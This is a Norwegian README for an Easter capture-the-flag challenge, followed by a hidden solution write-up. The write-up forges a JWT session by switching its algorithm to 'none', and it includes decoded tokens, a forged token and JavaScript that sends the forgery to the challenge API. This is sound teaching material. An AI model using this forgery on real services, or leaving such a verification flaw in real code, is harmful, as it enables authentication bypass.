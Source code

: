 <p align="center">
  <a href="https://ctf-rubberduck-easter.vercel.app">
    <img src="./screenshot.png" height="300px">
  </a>
</p>

&nbsp;

# Rubberduck påske CTF

En CTF-oppgave bygget med [`lit.js`](https://lit.dev) og [`tailwind.css`](https://tailwindcss.com) ment for å kjøre på [Vercel](https://vercel.com/) ved hjelp av [serverless functions](https://vercel.com/docs/concepts/functions/serverless-functions)

<br>
<hr>
<br>

## Oppgavetekst
> Påskeharen er godt i gang med årets levering av påskeegg, men har hvert år en del defekte egg som ikke vil åpnes. Disse kan selvfølgelige ikke påskeharen utlevere, men det finnes en instruks for hvordan eggene kan åpnes<br>
<br>
Hvert egg har to tilhørende tilfeldig adjektiver som beskriver egget og en "lykke-kode". Påskeharen sier at hvert egg som er låst ikke er korrekt justert for å oppnå sin "lykke-kode". Du kan justere egget ved å finne en hash av typen <code>SHA256(ADJEKTIV_1 + ADJEKTIV_2 + justering)</code> som begynner på eggets "lykke-kode".<br>
<br>
For eksempel så vil et egg med adjektivene <code>brilliant</code> og <code>stappfullt</code> trenge en justing på <code>123</code> for å oppnå sin "lykke-kode" med verdi <code>37964</code>. Fordi <code>SHA256(brilliantstappfullt123) == 37964....</code><br>
<br>
Men vi begynner å lure på om ikke påskeharen har lurt oss i år. Hen vil at vi skal åpne 100 000 000 egg på denne måten før vi får belønningen våres! Klarer du å lure en luring?<br>

<br>

## Installasjon og lokal kjøring
### Prequisits
* [nodejs](https://nodejs.org/en)
* [npm](https://nodejs.org/en)
* [vercel-cli](https://vercel.com/docs/cli)

Etter installasjon av node, `npm install` og `npm i -g vercel` kan prosjektet startes med kommandoen `vercel dev --port 3001`.

For utvikling med Vite hot-relead anbefales det å også kjøre `npm run dev` som vil starte en hot-reaload devserver av frontend på port `3000` (satt opp til å proxye `/api` kall til `http://localhost:3001` (Vercel))

<br>

## Løsning
<details>
  <summary>Klikk for å vise løsningforslag</summary>
  <br>
  Oppgaven spesifiserer at brukeren må klare å "knekke" 100 000 000 påskeegg før man får "belønning". Ettersom knekking av påskeeggene baserer seg på å "gjette" seg frem til en `sha-256` hash som begynner på samme fire bokstaver som "lykke-koden" vil dette i praksis være tidsumulig med dagens datakraft.

  <br><br>

  Dersom vi reverse engineerer kommunikasjonen mellom frontend og backend ser vi at kommunikasjonen er basert på at frontend sender inn korrekt `padding` til `/api/next_egg` endepunktet.

  Dersom `padding` er korrekt så vil backend sende tilbake et nytt egg og slik har vi det gående.

  Dersom vi ser på trafikken nærmere ser vi at backend alltid oppdaterer en cookie `session` for hver korrekt `padding` frontend sender. Denne `session` cookien ser ut til å være en JWT.

  Et eksempel på en slik session er:
  ```
  eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhZGplY3RpdmUxIjoibHlzIiwiYWRqZWN0aXZlMiI6ImjDuHl0ZWtub2xvZ2lzayIsImNoYWxsZW5nZSI6IjQwYTgiLCJzb2x2ZXMiOjE3LCJqdGkiOiJhZjRkMzM5OC1jNGExLTQwNjgtYTk3OS0yYzA2ZWM2NTg5ZDUiLCJpYXQiOjE2ODAyOTYwMjAsImV4cCI6MTY4MDI5OTYyMH0.Y_PRAzod6VyFG021w
  ```

  En JWT er delt opp i tre base64-encoded deler: `header`, `payload` og `signature`. Dersom vi decoder vår JWT får vi følgende strukturer tilbake:
  ```json
  [
    {
      "typ": "JWT",
      "alg": "HS256"
    },
    {
      "adjective1": "lys",
      "adjective2": "høyteknologisk",
      "challenge": "40a8",
      "solves": 17,
      "jti": "af4d3398-c4a1-4068-a979-2c06ec6589d5",
      "iat": 1680296020,
      "exp": 1680299620
    },
    "Y_PRAzod6VyFG021w"
  ]
  ```

  Det finnes flere svakheter med hvordan JWT verifisering kan være implementert på en server. En av hovedsvakhetene (men også en styrke) er at det i det hele tatt kan lese `header` og `payload` feltene uten å verifisere den opp mot `signature` delen.

  En annen svakhet i noen JWT implementasjoner er at algoritmen som brukes for å signere `header` + `payload` ligger klart definert i `header` feltet og kan i en evt. feil-implementasjon bli brukt under validering av JWT-en. <b>Dette er svakheten her</b>

  Dersom vi endrer algoritmen i JWT headeren våres til å spesifisere at `"alg": "none"` skal benyttes (som er en helt gyldig iht. JWT-spesifikasjonen) så kan vi også fritt endre `payload` og fjerne hele `signature` delen:

  ```json
  [
    {
      "typ": "JWT",
      "alg": "none"
    },
    {
      "adjective1": "lys",
      "adjective2": "høyteknologisk",
      "challenge": "40a8",
      "solves": 100000000,
      "jti": "af4d3398-c4a1-4068-a979-2c06ec6589d5",
      "iat": 1680296020,
      "exp": 1680299620
    }
  ]
  ```

  Dersom vi nå koder denne strukturen tilbake til en gyldig JWT:

  ```
  eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhZGplY3RpdmUxIjoibHlzIiwiYWRqZWN0aXZlMiI6ImjDuHl0ZWtub2xvZ2lzayIsImNoYWxsZW5nZSI6IjQwYTgiLCJzb2x2ZXMiOjEwMDAwMDAwMCwianRpIjoiYWY0ZDMzOTgtYzRhMS00MDY4LWE5NzktMmMwNmVjNjU4OWQ1IiwiaWF0IjoxNjgwMjk2MDIwLCJleHAiOjE2ODAyOTk2MjB9
  ```

  Så kan den brukes for å "lure" serveren til å tro at vi nå har åpnet 100 000 000 påskeegg og gi oss belønningen våres

  <br>
  <hr>
  <br>
  
  ### Fullstending løsnings-kode:
  ```javascript
  const header = { typ: "JWT", alg: "none" };
  const payload = { solves: 100000000 };

  const headerAsBase64Url = btoa(JSON.stringify(header)).replaceAll('=', '');
  const payloadAsBase64Url = btoa(JSON.stringify(payload)).replaceAll('=', '');

  const session = `${headerAsBase64Url}.${payloadAsBase64Url}`;

  const { reward } = await fetch('/api/new_egg', { headers: { Cookie: `session=${session}` } })
    .then(response => response.json());

  console.log(`The reward is: ${reward}`);
  ```
  
</details>
